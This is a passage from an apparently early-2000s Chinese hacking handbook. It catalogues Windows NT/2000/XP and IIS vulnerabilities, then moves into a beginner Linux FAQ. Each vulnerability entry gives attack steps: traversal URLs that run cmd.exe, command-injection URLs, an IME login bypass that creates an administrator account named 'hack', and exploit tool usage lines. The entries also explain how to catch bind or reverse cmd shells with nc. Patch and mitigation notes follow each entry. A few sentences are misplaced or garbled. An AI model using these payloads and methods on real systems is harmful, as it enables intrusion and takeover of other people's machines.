**受影响的系统：**该漏洞影响 Windows NT 系统，以及早期 Windows 2000 系统；但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

**修复方法：**将你的 Windows 2000 系统升级至 SP2 及以上即可。

### 17. IIS Path Reveal 目录暴露执行漏洞

**攻击方法：**

`http://ip/anything.ida`  
`http://ip/%c1%1c.idq`

**受影响的系统：**该漏洞影响 Windows NT 系统，以及早期 Windows 2000 系统；但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

**修复方法：**将你的 Windows 2000 系统升级至 SP2 及以上即可。

### 18. IIS UNICODE 执行漏洞

这是 nsfocus 发现的一个非常严重的……安全漏洞。想当年，被该漏洞黑掉的服务器不计其数。IIS 4.0 和 IIS 5.0 在 Unicode 字符解码的实现中存在一个安全漏洞，导致用户可以远程通过 IIS 执行任意命令。当 IIS 打开文件时，如果该文件名包含 Unicode 字符，它会对其进行解码，如果用户提供一些特殊的编码，将导致 IIS 错误地打开或者执行某些 Web 根目录以外的文件。

事实上，该漏洞还牵扯到微软 IIS 服务器对于虚拟目录默认权限设置上的一个安全隐患（图1）。

除了 scripts（\Inetpub\scripts）目录外，还有 msadc（\Program Files\Common Files\System\msadc）、News（\Inetpub\News）、Mail（\Inetpub\Mail）、cgi-bin（\Inetpub\wwwroot\cgi-bin）、samples（\Inetpub\wwwroot\samples）、IISADMPWD（\WINNT\System32\inetsrv\iisadmpwd）、_vti_bin（\Inetpub\wwwroot\_vti_bin）、_vti_cnf（\Inetpub\wwwroot\_vti_cnf），也都存在该问题，括号中为其绝对路径。

#### 攻击方法

```
http://ip/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir
http://ip/a.asp/..%c1%1c..%c1%1c../winnt/win.ini
http://ip/default.asp/a.exe/..%c1%1c..%c1%1c../winnt/winnt.ini
```

### 受影响的系统

该漏洞影响 Windows NT 系统，以及早期的 Windows 2000 系统，但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。


图1

从图中我们可以看到，IIS 对于 scripts 虚拟目录默认设置的权限为“脚本和可执行程序”，这就意味着我们将任何可执行程序放在该目录下的话，都可以通过浏览器远程执行。事实上直到今日的 SP4，这仍然是一个安全隐患。


图2

#### 修复方法

将你的 Windows 2000 系统升级至 SP2 及以上就可以了。另外，我们将图1中默认的权限修改成“纯脚本”或“无”也都可以简单地防范该漏洞（图2）。

## 19、IIS CGI 安全告急漏洞

这是一个和 Unicode 漏洞有点儿类似的漏洞。利用该漏洞我们同样可以远程在 IIS 中执行命令。

#### 攻击方法

```
http://ip/scripts/test.bat"+&+dir+c:\+.exe
http://ip/scripts/test.bat"+"&+dir+c:\+.exe
http://ip/scripts/test.bat"+"+&+dir+.+/..%c1%1c..%c1%1c..%c1%1cwinnt/explorer.exe
http://ip/."./."./winnt/win.ini%20.pl
http://ip/."./."./Perl/eg/core/findtar+&+dir+c:\+&+.pl
```

### 受影响的系统

该漏洞影响 Windows NT 系统，以及早期的 Windows 2000 系统，但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

#### 修复方法

将你的 Windows 2000 系统升级至 SP3 及以上就可以了。

## 20、Win2000 输入法漏洞

Win2000 系统提供的简体中文输入法（IME）实际上存在一个安全漏洞，导致被任意用户非法以系统权限执行命令。对于本地用户，可以在登录系统时调用该漏洞；而对于远程攻击者，可以根据服务器开放的终端（3389）服务来调用该漏洞。

如果一个 IME 在系统初始设置时被安装，缺省它也会出现在登录界面中，而 Windows 2000 提供的简体中文输入法（IME）没有正确地检查当前运行环境，错误地将一些危险功能提供给了还处于登录界面的用户。攻击者可以通过物理键盘或者终端服务会话访问到受影响系统，它将可以绕过登录机制，获得系统的管理权限。

#### 攻击方法

攻击者先使用端口扫描程序扫描 3389 端口，然后运行 Win2000 的终端客户端程序进行连接。在出现登录界面后，按下 CTRL+SHIFT，调出全拼输入法，在输入法状态条上按鼠标右键，选择“帮助”->“输入指南”，在“选项”菜单上点右键，选择“跳转到 URL”，输入“c:\winnt\system32\cmd.exe”，选择“保存到磁盘”，选择存放的目录“c:\inetpub\scripts\”。这样，攻击就可以通过 IE 来远程执行命令了。

```
http://ip/scripts/cmd.exe?/c+echo net use hack hack /add > test.bat
http://ip/scripts/cmd.exe?/c+echo net localgroup administrators hack /add >>test.bat
```

然后在“选项”菜单中点右键 ->“跳转到 URL”，输入“c:\inetpub\scripts\test.bat”->“在磁盘当前位置执行”，就创建了一个名为 hack、口令也为 hack 的用户，可以直接使用该账号登录进系统了。

### 受影响的系统

该漏洞影响早期的 Windows 2000 简体中文版，但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

#### 修复方法

将你的 Windows 2000 系统升级至 SP2 及以上就可以了。另外我们也可以将 winpy.ime（全拼输入法）、winzm.ime（郑码输入法）删除，也可以简单地修复该漏洞。


## 21、IIS Index Service IDQ 缓冲区溢出漏洞

这是 2001 年被公布的一个非常严重的安全漏洞了。直到 2003 年初，该漏洞都是 Internet 上最常用到的一个攻击方法。成功地利用该漏洞，远程攻击者可以轻易地获取目标服务器的系统权限来执行任意指令。

微软 IIS 默认安装情况下带了一个索引服务（Index Service）。默认安装时，IIS 支持两种脚本映射：管理脚本（.ida 文件）、Internet 数据查询脚本（.idq 文件）。这两种脚本都由一个 ISAPI 扩展 idq.dll 来处理和解释。idq.dll 实现上存在一个缓冲区溢出漏洞，远程攻击者可以利用此漏洞以“Local System”权限在主机上执行任意指令。

#### 攻击方法

在国内最常使用的就是 snake 的 IIS 溢出工具了（图3）。支持中文 2000、英文 2000、日文 2000、墨西哥文 2000、韩文 2000 系统，并且支持正向连接及反向连接两种方式。选择好要攻击的 IP 地址及其操作系统类型，在绑定的命令栏中选择“cmd.exe”，点击“IDQ溢出”按钮就可以了。

如果我们选择的是正向连接，可以使用 nc 来连接对方默认监听的 813 端口。如果是使用反向连接方式，在溢出前，我们需要先使用 nc 在本地监听 813 端口。

### 受影响的系统

该漏洞影响早期的 Windows 2000 系统，但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。


图4


图5

#### 修复方法

将你的 Windows 2000 系统升级至 SP3 及以上就可以了。另外也可以通过删除 .ida、.idq ISAPI 映射来防范该漏洞。

通过“管理工具”打开“Internet 信息服务”，右击“默认 Web 站点”→“属性”，在“默认 Web 站点属性”菜单中选择“主目录”（图4），点击“配置”按钮，出现“应用程序配置”菜单（图5），选中 `.ida` 和 `.idq` 映射删除就可以了。


## 22、Printer 漏洞

这也是于 2001 年被公布的一个非常严重的安全漏洞了。Windows 2000 IIS 5.0 的打印 ISAPI 扩展接口建立了 `.printer` 扩展名到 `msw3prt.dll` 的映射，默认情况下该映射存在。该接口可以通过 Web 远程调用打印机。处理 `.printer` 映射的 `msw3prt.dll` 存在一个缓冲区溢出漏洞，远程攻击者可以利用此漏洞在目标主机上以 Local System 权限执行任意指令。

#### 攻击方法

目前网上最常用的攻击程序就是 sunx 编写的 `iis5hack.exe` 了，其使用格式为：

```
iis5hack 目标主机ip 80 主机类型
```

主机类型包括 Win2000 的中文版、英文版、日文版、韩文版、墨西哥版（图6）。如果溢出成功的话，使用 nc 连接对方的 99 端口，就会得到一个具有系统管理员权限的 cmd shell 了。


### 受影响的系统

该漏洞影响早期的 Windows 2000 系统，但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

#### 修复方法

将你的 Windows 2000 系统升级至 SP2 及以上就可以了。另外也可以通过删除 `.printer` ISAPI 映射的方法来防范该漏洞（图7）。

## 23、IIS + ASP 分块编码远程缓冲区溢出漏洞

这是 2002 年被公布的一个安全漏洞。默认安装的 IIS 4.0/5.0/5.1/6.0 服务器加载了 ASP（Active Server Pages）ISAPI 过滤器，它在处理分块编码传送（chunked encoding transfer）机制的代码中存在着缓冲区溢出漏洞，攻击者通过提交恶意分块编码的数据可以覆盖 heap 区的内存数据，使之以他指定的数据重写任意地址的 4 字节内存。利用该漏洞，攻击者使用随机数据可能使 IIS 服务崩溃；而如果攻击者精心构造发送的数据，可得到远程主机访问权限。对于 IIS 4.0，远程攻击者可以获得 system 权限；而对于 IIS 5.0、5.1，攻击者只可以获得 IWAM_computername 用户的权限。

#### 攻击方法

目前，国内普通使用的是 yuange 编写的 aspcode.exe，使用格式如下：

```
aspcode.exe server aspfile webport
```

- **server**：目标主机 IP 地址
- **aspfile**：利用的 aspfile，默认为 iisstart.asp
- **webport**：目标主机的 Web 服务端口，通常为 80 端口

如果溢出成功的话，会自动通过对方的 80 端口得到一个 cmd shell。

### 受影响的系统

该漏洞影响早期的 Windows 2000 系统，但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

#### 修复方法

下载补丁程序：  
http://www.microsoft.com/downloads/Release.asp?ReleaseID=37931（WinNT + IIS4.0）  
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=37824（Win2000 + IIS5.0）

对于 Win2000 系统，还可以通过安装 SP3 或 SP4 服务包来修复该漏洞。

## 2.6 RPC Locator 远程缓冲区溢出漏洞

RPC Locator 远程缓冲区溢出漏洞是 2003 年初被公布的一个严重的安全漏洞。Windows RPC Locator 服务是一款映射逻辑名称到网络特定名称的名字服务。客户端使用 RPC（Remote Procedure Call，远程过程调用）Locator 服务，Locator 服务负责把客户提交的网络名解析转换为硬盘、打印机等计算机系统上实际资源的地址。不过 Locator 服务在接收注册信息时，没有对 Locator 服务的参数进行详细检查，超长超大的参数可以导致服务程序触发缓冲区溢出，使 Locator 服务崩溃。精心构建提交数据可能以 Locator 服务进程的权限在系统上执行任意指令，这通常为 system 权限。Locator 服务默认使用的是 3268 端口。

#### 攻击方法

目前网上常用的攻击程序为 sunx 编写的 locatorhack.exe，其使用格式如下（图8）：

```
locatorhack -h 目标主机ip -v 系统版本 -l 系统语言版本 -s 系统sp版本 -r 返回连接ip -p 监听端口
```


图8

### 受影响的系统

该漏洞影响到 Windows NT + SP6a、Windows 2000 + SP3、Windows XP + SP1，但不影响 Windows 2000 + SP4、Windows XP + SP2 以及 Windows 2003 系统。

#### 修复方法

我们可以通过下载安装补丁程序来修复该漏洞。

- http://www.microsoft.com/downloads/details.aspx?FamilyId=F92D1E86-590A-4DA5-93F2-FCC6300A1A43&displaylang=en（Windows NT 4.0）
- http://www.microsoft.com/downloads/details.aspx?FamilyId=33FF82FA-D5DB-4F92-9DEF-4D91A140E0E0&displaylang=en（Windows 2000）
- http://www.microsoft.com/downloads/details.aspx?FamilyId=DF24197E-6217-4ABD-A244-0A53320B2813&displaylang=en（Windows XP）


图9

另外，我们也可以通过停掉 Locator 服务的方法来防范该漏洞。点击“开始”->“程序”->“管理工具”->“服务”，找到 Locator 服务，双击它，停止服务就可以了。另外，在启动类型中也可以选择“已禁用”，这样下次重新启动系统后，Locator 服务也不会被运行了（图9）。

## 25、WebDAV 远程溢出漏洞

这是 2003 年继 RPC Locator 漏洞后被公布的另一个非常严重的安全漏洞了。当初，国内外不知道有多少个大中型的网站都栽倒在该漏洞下。

IIS 5.0 包含的 WebDAV 组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 Web 进程权限在系统上执行任意指令。

由于 WebDAV 使用了 ntdll.dll 中的一些 API 函数，而这些函数存在一个缓冲区溢出漏洞。IIS 5.0 带有 WebDAV 组件，对用户输入的、传递给 ntdll.dll 程序处理的请求未做充分的边界检查。远程入侵者可以通过向 WebDAV 提交一个精心构造的超长数据请求而导致发生缓冲区溢出。成功利用该漏洞可以获得 LocalSystem 权限，这意味着入侵者可以获得对主机的完全控制。

所以确切地说，这个漏洞并不是 IIS 造成的，而是 ntdll.dll 里面的一个 API 函数造成的。更确切地说，很多调用这个 API 函数的应用程序可能都会存在该漏洞。

#### 攻击方法

网上关于针对 WebDAV 漏洞的攻击程序有很多个不同的版本，在国内比较常用的是 isno 编写的一个，其使用格式如下（图10）：

```
cnwebdavx3 目标ip
```

如果溢出的话，我们使用 nc 连接目标主机的 7788 端口，就会得到一个具有系统管理员权限的 cmd shell 了。

就会停止了。


图10

### 受影响的系统

该漏洞影响到 Windows 2000 + SP3，但是并不影响 Windows 2000 + SP4 系统。

#### 修复方法

- 将你的 Windows 2000 系统升级到 SP4。
- 到 http://www.microsoft.com/downloads/details.aspx?FamilyId=C9A38D45-5145-4844-B62E-C69D32AC929B&displaylang=en 下载安装补丁程序。
- 通过注册表停止 WebDAV 服务。找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters`，点击“编辑”，点击“增加值”，然后增加如下注册表键值：

```
Value name: DisableWebDAV
Data type: DWORD
Value data: 1
```

重启 IIS 后，设置就会生效，WebDAV ...


## 26、Windows Media Services 远程缓冲区溢出漏洞

这也是 2003 年被公布的一个安全漏洞。Microsoft Windows Media Services（媒体服务）是 Windows 2000/2003 系统中包含的服务，它支持通过多播流从网络上传送媒体内容给客户端。为了能够记录客户端信息，Windows Media 提供了多播和单播传输进行记录的功能，此功能以 ISAPI 扩展 nsiislog.dll 来实现。而当这个 nsiislog.dll 处理超长 POST 请求数据时存在缓冲区溢出漏洞，如果攻击者向服务器提交特殊构造的请求时，会导致 IIS 停止对 Internet 请求的响应或者执行任意指令。入侵者利用该漏洞可获取远程主机的 guest 权限。

Windows Media 服务默认并不安装，只有当安装系统时选择了该服务组件，或是后来通过“添加/删除程序”进行添加该服务组件时，nsiislog.dll 才会被安装到 IIS 的 scripts 目录下。基本上 Internet 上提供了影视点播服务的影视网站会提供 Windows Media 服务，我们可以通过扫描 1755 端口来寻找提供了 Windows Media 服务的主机。

#### 攻击方法

关于 Windows Media 漏洞的攻击程序，在网上也有好几个不同版本，media.exe 就是其中效果不错的一个，格式如下（图11）：

```
media -p 目标主机ip -r /scripts/nsiislog.dll
```


如果溢出成功的话，我们使用 nc 连接对方的 34816 端口，就会得到一个具有 guest 权限的 cmd shell 了。


图11

**受影响的系统：** 该漏洞影响到 Windows 2000 + SP3 以及最新的 Windows 2003 系统，但并不影响 Windows 2000 + SP4 系统。

**修复方法：** 我们可以删除 scripts 目录下的 nsiislog.dll，就可简单地防范该漏洞，另外就是下载安装补丁程序。  
`http://www.microsoft.com/downloads/details.aspx?FamilyId=F772E131-BBC9-4B34-9E78-F71D9742FED8&displaylang=en`

## 27. RPC-DCOM 远程溢出漏洞

这是 2003 年 7 月公布的一个非常严重的安全漏洞，也是 Windows 系统有史以来最严重的一个安全漏洞，影响了 Windows NT/2000/XP/2003 所有的版本，而且 RPC 服务也是系统默认开放的。几日之后，利用该漏洞的网络蠕虫病毒“冲击波”就开始肆虐整个互联网。

Microsoft 的 RPC 部分在通过 TCP/IP 处理信息交换时存在问题，远程攻击者可以利用该漏洞以本地系统权限执行任意指令。此漏洞是由于不正确处理畸形消息所致，漏洞影响使用 RPC 的 DCOM 接口。该漏洞利用的是 135、139、445、593 端口。

#### 攻击方法

关于该漏洞的溢出程序，网上有十几个不同的版本，限于篇幅，我们不能一一介绍，在此只好简单介绍一下 winrpcdcom.exe 了，其使用格式如下（图12）：`winrpcdcom 系统类型号 目标主机IP`。溢出成功后，程序会自动连接对方的 4444 端口，并得到一个具有管理员权限的 cmd shell。

### 受影响的系统

该漏洞影响 Windows NT/2000/XP/2003 的所有版本。对于 2003 系统，虽然没有公布相应的溢出程序，但使用针对 NT/2000/XP 的攻击程序攻击 2003 系统，仍然会造成 2003 系统重新启动。


图12

#### 修复方法

- 下载安装补丁程序来修复该漏洞。  
  `http://www.microsoft.com/downloads/details.aspx?FamilyId=C8B8A846-F541-4C15-8C9F-220354449117&displaylang=en`
- （Windows 2000）  
  `http://www.microsoft.com/downloads/details.aspx?FamilyId=2354406C-C5B6-44AC-9532-3DE40F69C074&displaylang=en`
- （Windows XP）  
  `http://www.microsoft.com/downloads/details.aspx?FamilyId=F8E0FF3A-9F4C-4061-9009-3A212458E92E&displaylang=en`
- （Windows 2003）
- 使用防火墙拦截针对 135、139、445、593 端口的数据请求，也可以防范该漏洞。

## 28. Messenger 远程溢出漏洞

Windows Messenger 远程溢出漏洞是 2003 年 10 月公布的一个严重的安全漏洞。Messenger 服务由于在向缓冲区保存消息数据之前没有正确检查消息长度，可能被攻击者利用来进行远程溢出或拒绝服务攻击。具体溢出问题存在于消息队列服务程序的 search-by-name 函数中，攻击者提交超长字符串给这个函数可造成堆溢出。该漏洞使用的是 135 端口。

#### 攻击方法

针对该漏洞的远程攻击程序，网上也有好几个，我们看看 msgr.exe 的使用格式（图13）。

```
msgr 目标主机IP 系统类型
如果溢出成功的话，我们使用 nc 连接对方的 9191 端口，就会得到一个具有管理员权限的 cmd shell 了。
```

### 受影响的系统

该漏洞影响 Windows NT/2000/XP/2003 系统。不过，在网上我倒是没有听说公布过针对 2003 系统的攻击程序。


#### 修复方法

- 下载并安装补丁程序来修复该漏洞。  
  `http://www.microsoft.com/downloads/details.aspx?FamilyId=99F1B40D-906A-4945-A021-4B494CCCBDE0&displaylang=en`（Windows 2000）  
  `http://www.microsoft.com/downloads/details.aspx?FamilyId=F02DA309-4B0A-4438-A0B9-5B67414C3833&displaylang=en`（Windows XP）  
  `http://www.microsoft.com/downloads/details.aspx?FamilyId=1DF106F3-7EC4-4EB0-9143-C1E3C9E2F5F8&displaylang=en`（Windows 2003）
- 使用防火墙拦截 135、137、138、139 端口的数据请求，也可简单防范该漏洞。
- 停止 Messenger 服务也可以简单防范该漏洞。

从“管理工具”中打开“服务”，找到“Messenger”服务并双击它，在出现的属性菜单中按“停止”按钮停掉该服务，并且在“启动类型”中选择“已禁用”，就可以了（图14）。


## 29. Workstation 服务处理溢出漏洞

这是继 Windows Messenger 漏洞之后被公布的又一严重安全漏洞。Windows Workstation 服务在处理日志记录时缺少充分的边界缓冲区检查，在 wkssvc.dll 的 vsprintf 调用中没有检查输入缓冲的长度，利用函数 NetValidateName 提供超长参数可以直接触发缓冲区溢出。如果是 NTFS 文件系统，Windows 目录中的“debug”目录不允许所有人可写，这表示不能使用 NULL 会话来生成日志；而如果是 FAT 文件系统，那就可能被成功利用。成功利用该漏洞，攻击者可以获得系统权限来执行任意指令。该漏洞使用的是 445 端口。

#### 攻击方法

目前针对该漏洞常用的攻击程序是 ms03049.exe，其使用格式如下（图15）。

```bash
ms03049 目标IP
```

如果溢出成功的话，我们使用 nc 连接对方的 1234 端口，就可以成功得到一个具有管理员权限的 cmd shell。


### 受影响的系统

该漏洞影响 Windows 2000 及 Windows XP 系统，但需要对方使用的是 FAT 文件系统。

#### 修复方法

- 下载安装补丁程序。  
  `http://www.microsoft.com/technet/security/bulletin/MS03-049.asp`
- 使用防火墙拦截 138、139、445 端口的数据请求也可以防范该漏洞。
- 停止 Workstation 服务也可以简单地防范该漏洞。


从“管理工具”中打开“服务”，找到 Workstation 服务并双击它，在出现的属性菜单中按“停止”按钮停掉该服务，并且在“启动类型”中选择“已禁用”，就可以了（图16）。

## 30. FrontPage fp30reg.dll 远程溢出漏洞

FrontPage fp30reg.dll 远程溢出漏洞是 2003 年 11 月被公布的一个安全漏洞。事实上，fp30reg.dll 早在 2001 年的时候就曾经被公布过一个远程溢出漏洞了，只是后来的 SP 服务包修正了该漏洞。成功利用该漏洞，入侵者可以以 IIS 权限来执行任意命令。


图17

#### 攻击方法

目前网上常用的针对该漏洞的攻击程序为 fp30reg2.exe（图17）。这是一个有反向连接功能的程序，在使用该程序溢出前，我们先使用 nc 在本地的 53 端口上进行监听。

```
winfp30reg2 目标主机IP 80 反向连接IP
```

如果溢出成功的话，我们就会在本地监听的 53 端口上得到一个具有 guest 权限的 cmd shell 了。

### 受影响的系统

该漏洞影响 Windows 2000 + SP3，但在 Windows 2000 + SP4 中并不存在该漏洞。

#### 修复方法

- 将你的 Windows 2000 升级至 SP4 服务包。
- 安装下载补丁程序。`http://www.microsoft.com/technet/security/bulletin/MS03-051.asp`

## 31. Windows Lsasrv.dll 远程溢出漏洞

这是微软于 2004 年 4 月发布的 MS04-011 安全公告中非常严重的一个安全漏洞。eEye 在 Windows LSA（Local Security Authority）服务（Lsasrv.dll）中发现了一个远程缓冲区溢出漏洞，利用该漏洞攻击者可以以系统权限在远程 Windows 2000 及 Windows XP 系统上执行任意代码。该漏洞是通过系统默认开放的 TCP 139 和 445 端口来与 LSARPC 命名管道建立连接的。同 RPC-DCOM 漏洞相似的是，5 月初，利用该漏洞的网络蠕虫病毒“震荡波”席卷了整个互联网，给全球互联网用户造成了很大的损失。

#### 攻击方法

关于该漏洞的远程攻击程序，网上也有多个，让我们看看 ms04011lsass2.exe 的使用格式（图18）。

```
ms04011lsass2 系统类型 目标主机IP 监听端口 反向连接IP
```

这是一个具有反向连接功能的溢出程序，我们在进行溢出前，可以先使用 nc 在本地监听一个端口。如果溢出成功的话，我们就会在本地监听的端口上得到对方的一个具有管理员权限的 cmd shell 了。

### 受影响的系统

该漏洞影响到 Windows 2000 + SP4 以及 Windows XP + SP1 系统，但对于目前最新的 Windows XP + SP2 以及 Windows 2003 系统并不受影响。


图18

#### 修复方法

- 下载安装补丁程序可以修复该漏洞。`http://www.microsoft.com/technet/security/bulletin/ms04-011.mspx`
- 对于 Windows XP 系统，还可以通过安装最新的 SP2 服务包来修复该漏洞。
- 使用防火墙拦截 139、445 端口也可简单地防范该漏洞。

## 32. Windows SSL Library 远程溢出漏洞

这也是微软于 2004 年 4 月发布的 MS04-011 安全公告中非常严重的一个安全漏洞。ISS X-Force 在微软 Windows 系统使用的安全套接层（SSL）库中发现了一个远程缓冲区溢出漏洞，当处理 PCT 1.0 包时可以导致系统发生远程溢出。成功利用该漏洞，攻击者可以获得远程主机的系统权限执行任意指令；该漏洞使用的是 443 端口。

#### 攻击方法

针对该漏洞的攻击程序，网上最常使用的是 thc.org 公布的远程溢出程序 thcisslame3.exe，让我们来看看这个程序的使用格式（图19）。

`thcisslame3 目标主机IP 反向连接IP 监听端口`

这是一个具有反向连接功能的溢出程序，我们在使用前先运行 nc，在本地监听一个端口。如果溢出成功的话，就会在本地监听的端口上得到远程主机的一个具有管理员权限的 cmd shell 了。

### 受影响的系统

该漏洞影响到 Windows NT + SP6a、Windows 2000 + SP4、Windows XP + SP1，但对于最新的 Windows XP + SP2 以及 Windows 2003 系统并不存在该漏洞。


图19

#### 修复方法

- 下载安装补丁程序。`http://www.microsoft.com/technet/security/bulletin/ms04-011.mspx`
- 对于 Windows XP 系统，安装最新的 SP2 服务包，也可修复该漏洞。
- 如果没有必要使用 SSL 的话，也可以使用防火墙拦截 443 端口的数据请求，也可防范该漏洞。


## 第八章 UNIX/Linux 常见基础问题

听说 UNIX 和 Linux 都有许多不同的版本，像我等小菜，选择什么样的版本学习好呢？

确实是这样的，UNIX 在其三十多年的发展历程中，衍生出了许多不同的版本，比较著名的有：AT&T 公司的 System V 系列；SUN 公司的 SunOS、Solaris 系列；IBM 公司的 AIX 系列；SGI 公司的 IRIX 系列；HP 公司的 HP-UX 系列；伯克利大学的 BSD 系列等。

有许多国内外的计算机专业书籍，将 Linux 系统也归为 UNIX 的一个变种系统。当然也有一些专业书籍是把 UNIX 与 Linux 分开的，认为它们两个是有密切联系但又不完全相同的操作系统，这都无所谓。总之 Linux 所遵循的标准完全与 UNIX 一样，甚至连设计思想也完全一样。对于初学者来说，使用 Linux 系统来代替学习 UNIX 系统是完全可以的。而且 Linux 系统是开源软件，我们可以自由地从 Internet 上免费下载、使用并传播。

Linux 的版本也非常多，比较著名的有：RedHat Linux 及 Fedora、SuSE Linux、Cobalt Linux、Debian Linux、Mandrake Linux、Slackware Linux、Turbo Linux 等。RedHat Linux 是 Internet 上最常见的一个版本，在国内使用也非常广泛。自 RedHat Linux 9.0 之后，其新版本已正式更名为 Fedora。对于初学者来说，RedHat Linux 及 Fedora 倒是一个不错的选择。另外，同样免费的 FreeBSD 系统，在许多网络安全高手中是很受推崇的，因此 FreeBSD 也可以作为你另一个不错的选择。

我的系统中已经安装了 Windows XP 系统，可我还想再安装一个 Linux 系统，可以吗？该如何安装？

这是完全可以的，其实这和单独安装 Linux 系统几乎没有区别。主要要注意以下几个方面：第一是硬盘分区的问题。Linux 系统并不能使用原来 Windows 系统的那种主 DOS 分区与扩展分区，因此我们不能像安装 Windows 多操作系统那样来直接安装。我们可以在对硬盘进行分区的时候，扩展分区不选择全部空间，而是留出一定空间不进行任何划分，留给 Linux 安装时使用。如果你的硬盘上已经安装有 Windows 操作系统，你可以使用类似 PQMagic（魔术分区）的工具来重新划分出一片新的空间给 Linux 安装使用。划分给 Linux 的空间大小视安装类型的不同及所安装软件包的多少而不同，大小为 128M-5G，RedHat Linux 9.0 完全安装需要 5G 的硬盘空间。

Linux 可以从光盘、硬盘、NFS 服务器、HTTP 服务器上进行安装，我们建议使用光盘安装。先使用 Linux 的第一张安装光盘来引导系统进入安装界面，安装语言选择为“简体中文”。在安装类型选择时，对于个人用户来说，可以选择“工作站”。在这儿要注意一下，如果选择“服务器”，那么 Linux 将会自动给硬盘分区并独占，这样就不能保留你原来安装的 Windows 系统了。也就是说，“服务器”模式是不支持多操作系统的。

在“磁盘分区设置”中，建议选择“用 Disk Druid 手工分区”，而不是安装程序默认的“自动分区”。选择显示出的空闲分区就可以了。对于原来硬盘中已经安装了一个甚至多个 Windows 系统的用户来说，最简单的就是只划分“/”根分区以及“swap”交换分区。交换分区的大小可以定为内存大小的 1-2 倍。

在“引导装载程序配置”选项中一共有“GRUB”以及“LILO”两个引导装载程序供我们选择，默认使用的是“GRUB”。我们可以通过右边的“改变引导装载程序”按钮来选择使用“LILO”，甚至是不安装引导装载程序。当然对于多操作系统来说，是必须要使用引导装载程序的。我通常使用的是“LILO”，当然我不是说“LILO”要好于“GRUB”，这纯粹属于个人习惯问题而已。

最后还有一个要说的地方是软件包组的选择。默认情况下并不是所有的软件包组都会被安装，我们可以选择“定制要安装的软件包集合”来任意调整，或者全部选择。

> 可不可以相互切换 KDE 及 GNOME 呀？

实际上 X-Window 只是一个很空荡的图形环境，而真正负责管理系统的则是运行在 X-Window 上的图形管理软件。在 Linux（也包括 UNIX 系统）中，最常用到的就是 KDE 及 GNOME 了。网上关于 KDE、GNOME 到底哪个更好的争论已经有好久了，但都是“萝卜青菜，各有所爱”。反正对于系统操作来讲，这两个都是完全可以胜任的，至于到底选择哪一个，就看各人的喜好了。


图1

对于 RedHat Linux 系统来说，安装成功后，默认使用的是 GNOME，如果我们……## UNIX/Linux常见基础问题

想要更换成 KDE 的话，可以点击系统最左下角红色帽子图标 -> “系统工具” -> “更多系统工具” -> “Desktop Switching Tool”，在菜单中选中 KDE，点“OK”按钮就可以了（图1）。我们可以随时使用 Desktop Switching Tool 在 GNOME、KDE、TWM 进行切换。

### 我在 RedHat Linux 下，将软盘放入软驱以及将光盘放入光驱，怎么软盘及光盘都认不出来呀？

对于 Windows 系统来说，软驱及光驱都是系统自动识别的，只要硬件安装成功，就可以在操作系统中直接使用。但是在 RedHat Linux 系统下却不是这样，默认是识别不出这些硬件的。我们要想使用软驱及光驱，就必须让系统先装载它才行。在桌面上右击软驱及光驱的图标，在弹出的菜单中选择“装载”，系统就会自动地把软驱及光驱以文件的形式装载上了。装载完成后，我们就可以正常使用软盘及光盘了。另外，在退出系统前，请不要忘记将装载的软驱及光驱卸载掉。

### 我在原来安装 RedHat Linux 的时候，软件包是采用默认方式安装的，有许多都没有，有没有什么办法可以添加安装呢？

方法当然是有的。点击左下角红色帽子图标 -> “系统设置” -> “添加/删除应用程序”，系统会检查系统软件包状态，然后将整个安装情况显示出来（图2）。方框前打上勾的为已经安装的，未打勾的是没有安装的，灰色打勾的为只安装该包中的部分软件。我们可以通过点击最右边的“细节”来查看具体安装的软件包，选择好后点击右下方的“更新”按钮，系统就会要求我们在光驱中放入相应的安装光盘，然后进行自动添加安装了。如果是想卸载某个软件包，方法一样。

但有一点要注意：在放入光盘前，别忘了要让 RedHat Linux 系统装载光盘哟，不然系统可是认不出你的光驱哟！

图2

### 我的 56K 调制解调器（Modem），Linux 没有识别出来，该怎么办呀？

对于普通的 56K 调制解调器（Modem），如果 Linux 系统没有识别出来的话，我们只有安装它的驱动程序了。目前销售的调制解调器，在安装光盘上应该都有针对 Linux 系统的驱动程序。如果没有的话，我们可以与销售厂家联系，到其官方网站上下载。

### 我的 56K 调制解调器驱动程序已经成功安装了，可是要如何设置才能上网呀？

点击左下角红色帽子图标 -> “系统工具” -> “互联网配置向导”，在出现的“选择设备类型”菜单中选择“调制解调器连接”，然后点击“前进”按钮（图3）。

如果正确安装了调制解调器的驱动程序，系统会自动识别出来。剩下就是按照提示输入相关信息，和 Windows 下没有什么两样。设置好后，我们点击左下角红色帽子图标 -> “互联网” -> “更多互联网应用程序” -> “KPPP” 来启动 “KPPP” 拨号程序（图4）。

未进行设置时，“连接到”、“登录帐号”、“密码”均为空，点击“设置”，出现 KPPP 配置菜单（图5），在帐号项中点“新建” -> “对话框设置”，在出现的菜单中（图6）输入连接名称，添加拨号号码（通常为 163、165；如果是宽带的话则为宽带拨号号码），确定就可以了。这样在 KPPP 中就有了连接名称及登录帐号，输入密码，点“连接”就可以连接 Internet 了。

图3  
图4  
图5  
图6

### 我使用的是宽带，如何设置才能上网呀？

设置的方法基本同上。点击左下角红色帽子图标 -> “系统工具” -> “互联网配置向导”，在出现的“选择设备类型”菜单中选择“xDSL 连接”，系统会自动识别出调制解调器，然后按照提示输入相关信息就可以了。最后一步就是设置 KPPP，进行拨号上网。

### 我是在公司局域网内的一台电脑上安装的 Linux 系统，该如何设置才能让它上网呢？

